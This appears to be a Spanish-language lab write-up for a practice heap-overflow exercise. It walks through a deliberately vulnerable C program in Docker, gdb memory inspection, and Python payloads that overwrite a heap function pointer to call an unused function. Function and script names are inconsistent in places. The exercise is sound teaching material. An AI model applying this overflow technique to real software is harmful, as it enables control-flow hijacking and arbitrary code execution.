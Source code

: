 # HeapOverflow Carlos Dominguez
En esta práctica seguiremos los siguientes pasos para lograr un heap-overflow que nos permite abrir una foto.

Empecemos creando y ejecutando el contenedor Docker donde se harán las pruebas:
```
docker build -t heap .
docker run --rm -it --name heap heap
```
Una vez estamos dentro podemos analizar un poco el código vulnerable, el código que vaamos a romper:
```
int main(int argc, char **argv) {
    struct sdata *smidat;
    struct sfp *f;

    smidat = malloc(sizeof(struct sdata));
    f = malloc(sizeof(struct sfp));
    f->fp = fesperofuera;

    printf("data: está en [%p], el puntero fp está en [%p]\n", smidat, f);

    strcpy(smidat->buffer, argv[1]);

    f->fp();

    free(smidat);
    free(f);

    return 0;
}
```
Vemos que en ningún lugar del main vamos a llamar a la función esta
```
void fentrar() {
    printf("Pasando\n");
}
```
De forma que nuestra intención inicial como atacantes va a ser concseguir la ejecución de esta. Otro detalle que debemos destacar es que vamos a tener un struct que almacena una cadena de carácteres de tamaño 64 bytes, de forma que vamos a ver que pasa  en una ejecución normal vs una ejecución que la desborde:
![image](https://github.com/user-attachments/assets/ccc39f58-8e96-48d2-9c69-67d6398bb735)

Vemos que en la ejecución normal llegamos al final del programa ejecutando todo sin problemas, pero al forzar el overflow vemos que al llegar a la función
```
strcpy(smidat->buffer, argv[1]);
```
El sistema nos reporta que hemos accedido a una posición fuera de nuestro rango con
```
Segmentation fault (core dumped)
```
Por otro lado, destaquemos lo que hace el otro struct que almacenamos en el heap. Este guarda un puntero a una función, de forma que en el main se usa para que apunte a la función espero_fuera y luego llamar a esta desde el puntero.

Ahora vamos a ejecutar un debugger (gdb) para analizar el comportamiento de este programa:
```
gdb ./heapexample
```
Colocamos un break point en el punto en el que se llama a la función espero_fuera desde el puntero f:
![image](https://github.com/user-attachments/assets/b05b7378-974a-4a6b-a498-de59c007f942)

Tras esto, vamos a lanzar el comando
```
info proc map
```
Que nos muestra información sobre el proceso en ejecución. En concreto busacamos ver como se está organizando la memoria:
![image](https://github.com/user-attachments/assets/cba2b7e9-10ed-4910-a753-1099d54a5bcf)

En concreto, buscamos analizar el estado del heap, que en mi caso se encuentra entre las siguientes direcciones de memoria
```
Start Addr         End Addr    Size           Offset objfile
0x405000           0x426000    0x21000        0x0 [heap]
```
Ahora vamos a mostrar en detalle el contenido de esta zona de memoria, para ello ejecutamos:
```
x/120x 0x405000 
```
Donde el primer argumento expresa cuantas direcciones vamos a analizar y el segundo desde que posición lo haremos:
![image](https://github.com/user-attachments/assets/7c62b78d-ea3e-4ed1-bda8-f2f4a869f2de)

Aquí deberiamos buscar la cadena que hemos introducido "XXXX" que en hexadecimal sería "0x58585858", pero no la vemos.
Entonces vamos a aumentar el tamaño de direcciones que checkeamos:
```
x/240x 0x405000 
```
Con resultado: 
![image](https://github.com/user-attachments/assets/47d34e3b-5f8e-4d77-a450-71df0be9c8f7)

Donde ya podemos ver la cadena que buscabamos, así como la posición en la que comienza la función espera_fuera:
![image](https://github.com/user-attachments/assets/0f8903e0-2118-46a6-977b-e7b2bc6b40cf)

Para ubicar mejor donde empieza la función usaremos:
```
disass fesperofuera
```
![image](https://github.com/user-attachments/assets/134b4512-1d89-4c09-b03b-1ecde7b49cdc)

Ahora que tenemos la información que buscabamos ya podemos salir del debbuger con 
```
q
```

Ahora vamos a ejecutar un pequeño programa de python que nos deje analizar el comportamiento de la memoria ante un desbordamiento:
```
program.1:
#!/usr/bin/python3
print('X' * 90)
```

Antes de nada vamos a darle permisos y probar que funciona como es debido:
![image](https://github.com/user-attachments/assets/a91a2aab-a6de-4803-b5e0-0f7f9c9358ea)

Una vez vemos que funciona vamos a ejecutarlo para que nos de la entrada esperada de nuestro código vulnerable:
```
./heapexample $(./pp1)
```
Donde nuevamente vemos que hay un problema por desbordamiento:
![image](https://github.com/user-attachments/assets/5129e284-6665-4e61-b118-577ce1e6ff00)

Ahora veamos dentro de gdb que esta sucediendo (ejecutamos todos los pasos anteriores hasta justo antes de hacer run XXXX) ejecutando 
```
run $(program.1)
```
y volvemos a analizar el heap:
![image](https://github.com/user-attachments/assets/a34704fd-379a-45d8-b6a3-154d8f9c418b)

Viendo que hemos sobreescrito la primera instrucción de fesperandofuera.

¿Y como podríamos aprovechar esto?

Para ellos, vamos a volver a ver como se organiza el heap:
![image](https://github.com/user-attachments/assets/0d91f6a3-bfa4-4d16-bf19-cb0283f072f9)

Donde vemos que el número máximo de carácteres que podemos insertar es 
```
0x4052f0 (donde empieza fesperofuera) - 0x4052a0 (donde empieza el buffer) = 80
```

Por tanto, vamos a ver que pasa al introducir una cadena de este tamaño con el siguiente programa de python:
```
program.2:
#!/usr/bin/python3
print('X' * 70 + 'YAYBYCYDYEYFYG')
```
De forma que deberíamos prestar especial atencion a la última parte de la cadena "YFYG" = 0x47594659. Vamos a ver donde se sobreescribe esto ejecutando:
```
gdb -q ./heapexample
(gdb) run $(./program.2)
```
Y analicemos la memoria en el heap:

![image](https://github.com/user-attachments/assets/34b01a17-d6d2-488f-a2d5-2de408f73f66)

Donde podemos ver que hemos sobreescrito la zona de la funcion fesperofuera con la cadena "0x47594659" = YFYG (little endian).

Por otro lado, tras ejecutar con esta entrada si observamos los registros del sistema con:
```
info registers
```
vemos que hemos sobreescrito el RIP con esta cadena:
![image](https://github.com/user-attachments/assets/32f202a6-1c07-4c59-8ab4-3aeb843ac220)

Ahora vamos a refinar esto un poco más con el siguiente programa de Python (observar que "CDEF" = 0x46454443):
```
program.3:
#!/usr/bin/python3
print('X' * 80 + 'CDEF')
```
Donde rellenamos los primeros registros de la misma forma siempre, ya que solo nos importa sobreescribir el registro RIP. De esta forma, repetimos los pasos anteriores y vemos que pasa en el heap:
```
gdb -q ./heapexample
(gdb) run $(./program.3)
```
![image](https://github.com/user-attachments/assets/4c45454c-09ab-4534-9946-2ea11bf6a6d5)

También vemos lo que sucede con los registros:
```
info registers
```
![image](https://github.com/user-attachments/assets/38a0f883-0836-4244-b485-4b103762555c)

¿Cómo podríamos aprovechar esto?

Vamos a intentar ejecutar la función "fentrar" escribiendo la instrucción de inicio de esta donde debería empezar la función "fesperofuera". Para ello, primero veamos el código ensamblador de esta función con:
```
gdb -q ./heapexample
(gdb) disass fentrar
```

![image](https://github.com/user-attachments/assets/17cdf647-e044-405c-96ba-a982fecbd9fa)

De forma que si cogemos la primera instrucción de fentrar y la metemos en el RIP con el programa de python:
```
program.4:
#!/usr/bin/python3
#Seria lo ideal
print('X' * 80 + '\xba\x11\x40\x00')
#Por problemas con el caracter x00 podemos hacer
print('X' * 79 + '\xba\x11\x40')
```

Podemos llegar a visualizar lo siguiente al ejecutar
```
./heapexample $(./program.4)
```
![image](https://github.com/user-attachments/assets/2ec6200c-be3a-4a96-9cb5-cb225e761c87)

Viendo que hemos conseguido ejecutar nuestro código (fentrar que imprime "Pasando") en vez de la función fesperofuera.




